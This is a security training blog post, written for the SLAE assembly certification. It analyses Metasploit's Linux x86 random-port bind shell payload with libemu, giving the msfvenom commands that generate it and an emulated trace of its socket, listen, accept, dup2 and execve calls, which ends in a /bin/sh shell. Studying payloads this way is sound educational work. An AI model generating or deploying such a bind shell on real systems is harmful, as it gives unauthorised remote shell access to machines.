 _This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:_  
_ __<http://securitytube-training.com/online-courses/securitytube-linux-
assembly-expert/>_  
_ __**Student ID:** SLAE-885_  
_**Assignment number: **5.2_  
_**Github repo:** <https://github.com/abatchy17/SLAE>  _  
  
In the second part of assignment 5 in SLAE, I'll be analyzing the
linux/x86/shell_bind_tcp_random_port module using Libemu.  
  

## 1\. Setting payload parameters

  
First let's check the options for this module.  
  

    
    
    root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port --payload-options  
    Options for payload/linux/x86/shell_bind_tcp_random_port:  
      
      
           Name: Linux Command Shell, Bind TCP Random Port Inline  
         Module: payload/linux/x86/shell_bind_tcp_random_port  
       Platform: Linux  
           Arch: x86  
    Needs Admin: No  
     Total size: 57  
           Rank: Normal  
      
    Provided by:  
        Geyslan G. Bem <geyslan@gmail.com>  
      
    Description:  
      Listen for a connection in a random port and spawn a command shell.   
      Use nmap to discover the open port: 'nmap -sS target -p-'.  
    

  
I skipped over the advanced settings as they won't be discussed in this post.
Lucky for us, this payload doesn't require any options as it will bind to the
local IP and choose a port randomly (you'll use nmap to find that port).  
  

## 2\. Analyzing payload with libemu

##  

After you install libemu (you might need to install a few packages like
**autoconf** and **libtool**), let's pipe the raw output to ScTest (Iterate
1000 times with verbose output).  
  

    
    
    root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw | ./sctest -vvv -Ss 10000  
    verbose = 3  
    No platform was selected, choosing Msf::Module::Platform::Linux from the payload  
    No Arch selected, selecting Arch: x86 from the payload  
    No encoder or badchars specified, outputting raw payload  
    Payload size: 57 bytes  
      
    ... redacted ...  
      
    int socket (  
         int domain = 2;  
         int type = 1;  
         int protocol = 0;  
    ) =  14;  
    int listen (  
         int s = 14;  
         int backlog = 0;  
    ) =  0;  
    int accept (  
         int sockfd = 14;  
         sockaddr_in * addr = 0x00000000 =>   
             none;  
         int addrlen = 0x00000002 =>   
             none;  
    ) =  19;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 14;  
    ) =  14;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 13;  
    ) =  13;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 12;  
    ) =  12;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 11;  
    ) =  11;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 10;  
    ) =  10;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 9;  
    ) =  9;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 8;  
    ) =  8;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 7;  
    ) =  7;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 6;  
    ) =  6;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 5;  
    ) =  5;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 4;  
    ) =  4;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 3;  
    ) =  3;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 2;  
    ) =  2;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 1;  
    ) =  1;  
    int dup2 (  
         int oldfd = 19;  
         int newfd = 0;  
    ) =  0;  
    int execve (  
         const char * dateiname = 0x00416fb6 =>   
               = "/bin//sh";  
         const char * argv[] = [  
               = 0xffffffff =>   
                 none;  
         ];  
         const char * envp[] = 0x00000000 =>   
             none;  
    ) =  0;  
    

  
Lots of debug info, but let's focus on the syscalls being made. To make it
easier, sctest allows us to create a visual representation of the flow.  
  

    
    
    root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw | ./sctest -vvv -Ss 10000 -G tcp_random_port.dot  
      
    .. redacted..  
      
    root@kali:~/Desktop/libemu/tools/sctest# ls  
    dot.c        Makefile.in  sctest          sctest-sctestmain.o  tests.c  
    dot.h        nanny.c      sctest-dot.o    sctest-tests.o       tests.h  
    Makefile     nanny.h      sctestmain.c    sctest-userhooks.o   userhooks.c  
    Makefile.am  options.h    sctest-nanny.o  tcp_random_port.dot  userhooks.h  
    root@kali:~/Desktop/libemu/tools/sctest# dot tcp_random_port.dot -T png > tcp_random_port.png  
    

  

[![](http://i.imgur.com/MH3L6qb.png)](http://i.imgur.com/MH3L6qb.png)

  

#### 1\. socket()

  

    
    
    int socket (  
         int domain = 2;  
         int type = 1;  
         int protocol = 0;  
    ) =  14;  
    

  
Same call we made for both bind and reverse shell previously, creating a
socket that supports TCP communication, sockfd returned is 14.  
  

#### 2\. listen()

  

    
    
    int listen (  
         int s = 14;  
         int backlog = 0;  
    ) =  0;  
    

  
Next, it starts a listener for incoming connections on sockfd. Note: bind() is
not required and a random port is picked. Instead you'll need to scan the host
for open ports. More info here: http://stackoverflow.com/questions/12763268
/why-is-bind-used-in-tcp-why-is-it-used-only-on-server-side-and-not-in-client  
  

#### 3\. accept()

  

    
    
    int accept (  
         int sockfd = 14;  
         sockaddr_in * addr = 0x00000000 =>   
             none;  
         int addrlen = 0x00000002 =>   
             none;  
    ) =  19;  
    

  
When there's an incoming connection on the socket created earlier, accept it
without storing the client data (sockaddr_in). New sockfd is 19.  
  

#### 4\. dup2()

  
Next, the traffic is redirected to the newly created socket (19) by calling
dup2(), which will duplicate the STDIN,STDOUT and STDERR to the socket. Notice
that there's a loop using ECX as an index, ECX's value is pulled from the
latest value pushed onto stack.  
  
After accept(), there's a POP ECX command, which will now contain the value
last pushed into stack. If you scroll up you'll find that it was a PUSH EAX.
EAX contains the sockfd returned from socket(). This allows us to use a small
number without worrying too much about looping too much.  
  
Of course, this logic any error check, but you don't have that luxury while
shellcoding.  
  

#### 5\. execve()

  
This part is simple, it's simply calls a /bin/sh shell.  
  
\- Abatchy

